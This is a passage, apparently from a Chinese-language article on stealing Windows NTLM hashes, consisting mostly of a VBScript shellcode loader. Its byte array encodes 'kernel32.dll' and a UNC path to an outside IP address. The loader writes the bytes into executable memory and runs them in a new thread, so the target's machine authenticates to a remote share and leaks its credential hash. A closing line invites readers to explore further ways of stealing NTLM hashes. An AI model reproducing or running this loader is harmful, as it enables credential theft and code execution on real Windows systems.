 ```
&amp;H8b, &amp;Hfe, &amp;H81, &amp;Hc6, &amp;H29, &amp;H01, &amp;H05, &amp;H05, &amp;Hb9, &amp;H02, &amp;H05, &amp;H05, &amp;H05, &amp;Hfc, &amp;Had, &amp;H01, &amp;H3c, &amp;H07, &amp;He2, &amp;Hfa, _
&amp;H56, &amp;Hb9, &amp;H8d, &amp;H10, &amp;Hb7, &amp;Hf8, &amp;He8, &amp;H5f, &amp;H05, &amp;H05, &amp;H05, &amp;H68, &amp;H31, &amp;H01, &amp;H05, &amp;H05, &amp;Hff, &amp;Hd0, &amp;Hb9, &amp;He0, _ 
&amp;H53, &amp;H31, &amp;H4b, &amp;He8, &amp;H4e, &amp;H05, &amp;H05, &amp;H05, &amp;Hb9, &amp;Hac, &amp;Hd5, &amp;Haa, &amp;H88, &amp;H8b, &amp;Hf0, &amp;He8, &amp;H42, &amp;H05, &amp;H05, &amp;H05, _
&amp;H6a, &amp;H05, &amp;H68, &amp;H80, &amp;H05, &amp;H05, &amp;H05, &amp;H6a, &amp;H03, &amp;H6a, &amp;H05, &amp;H6a, &amp;H01, &amp;H68, &amp;H05, &amp;H05, &amp;H05, &amp;H80, &amp;H68, &amp;H3e, _
&amp;H01, &amp;H05, &amp;H05, &amp;Hff, &amp;Hd0, &amp;H6a, &amp;H05, &amp;Hff, &amp;Hd6, &amp;H33, &amp;Hc0, &amp;H5e, &amp;Hc3, &amp;H33, &amp;Hd2, &amp;Heb, &amp;H10, &amp;Hc1, &amp;Hca, &amp;H0d, _
&amp;H3c, &amp;H61, &amp;H0f, &amp;Hbe, &amp;Hc0, &amp;H7c, &amp;H03, &amp;H83, &amp;He8, &amp;H20, &amp;H03, &amp;Hd0, &amp;H41, &amp;H8a, &amp;H01, &amp;H84, &amp;Hc0, &amp;H75, &amp;Hea, &amp;H8b, _
&amp;Hc2, &amp;Hc3, &amp;H8d, &amp;H41, &amp;Hf8, &amp;Hc3, &amp;H55, &amp;H8b, &amp;Hec, &amp;H83, &amp;Hec, &amp;H14, &amp;H53, &amp;H56, &amp;H57, &amp;H89, &amp;H4d, &amp;Hf4, &amp;H64, &amp;Ha1, _
&amp;H30, &amp;H05, &amp;H05, &amp;H05, &amp;H89, &amp;H45, &amp;Hfc, &amp;H8b, &amp;H45, &amp;Hfc, &amp;H8b, &amp;H40, &amp;H0c, &amp;H8b, &amp;H40, &amp;H14, &amp;H89, &amp;H45, &amp;Hec, &amp;H8b, _
&amp;Hf8, &amp;H8b, &amp;Hcf, &amp;He8, &amp;Hd2, &amp;Hff, &amp;Hff, &amp;Hff, &amp;H8b, &amp;H70, &amp;H18, &amp;H8b, &amp;H3f, &amp;H85, &amp;Hf6, &amp;H74, &amp;H4f, &amp;H8b, &amp;H46, &amp;H3c, _ 
&amp;H8b, &amp;H5c, &amp;H30, &amp;H78, &amp;H85, &amp;Hdb, &amp;H74, &amp;H44, &amp;H8b, &amp;H4c, &amp;H33, &amp;H0c, &amp;H03, &amp;Hce, &amp;He8, &amp;H96, &amp;Hff, &amp;Hff, &amp;Hff, &amp;H8b, _
&amp;H4c, &amp;H33, &amp;H20, &amp;H89, &amp;H45, &amp;Hf8, &amp;H33, &amp;Hc0, &amp;H03, &amp;Hce, &amp;H89, &amp;H4d, &amp;Hf0, &amp;H89, &amp;H45, &amp;Hfc, &amp;H39, &amp;H44, &amp;H33, &amp;H18, _
&amp;H76, &amp;H22, &amp;H8b, &amp;H0c, &amp;H81, &amp;H03, &amp;Hce, &amp;He8, &amp;H75, &amp;Hff, &amp;Hff, &amp;Hff, &amp;H03, &amp;H45, &amp;Hf8, &amp;H39, &amp;H45, &amp;Hf4, &amp;H74, &amp;H1c, _
&amp;H8b, &amp;H45, &amp;Hfc, &amp;H8b, &amp;H4d, &amp;Hf0, &amp;H40, &amp;H89, &amp;H45, &amp;Hfc, &amp;H3b, &amp;H44, &amp;H33, &amp;H18, &amp;H72, &amp;Hde, &amp;H3b, &amp;H7d, &amp;Hec, &amp;H75, _
&amp;H9c, &amp;H33, &amp;Hc0, &amp;H5f, &amp;H5e, &amp;H5b, &amp;Hc9, &amp;Hc3, &amp;H8b, &amp;H4d, &amp;Hfc, &amp;H8b, &amp;H44, &amp;H33, &amp;H24, &amp;H8d, &amp;H04, &amp;H48, &amp;H0f, &amp;Hb7, _
&amp;H0c, &amp;H30, &amp;H8b, &amp;H44, &amp;H33, &amp;H1c, &amp;H8d, &amp;H04, &amp;H88, &amp;H8b, &amp;H04, &amp;H30, &amp;H03, &amp;Hc6, &amp;Heb, &amp;Hdf, &amp;H21, &amp;H05, &amp;H05, &amp;H05, _
&amp;H50, &amp;H05, &amp;H05, &amp;H05, &amp;H6b, &amp;H65, &amp;H72, &amp;H6e, &amp;H65, &amp;H6c, &amp;H33, &amp;H32, &amp;H2e, &amp;H64, &amp;H6c, &amp;H6c, &amp;H05, &amp;H2f, &amp;H2f, &amp;H33, _
&amp;H35, &amp;H2e, &amp;H31, &amp;H36, &amp;H34, &amp;H2e, &amp;H31, &amp;H35, &amp;H33, &amp;H2e, &amp;H32, &amp;H32, &amp;H34, &amp;H2f, &amp;H61, &amp;H61, &amp;H05)
scLocation = DX.VirtualAlloc(0, UBound(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
For i =LBound(shellcode) to UBound(shellcode)
DX.NumPut shellcode(i),scLocation,i
Next
thread = DX.CreateThread (0,0,scLocation,0,0)
```

[https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vbs](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vbs) 

在Windows系统中，可能还存在很多种窃取NTLM HASH的方法，你可以断续探索。

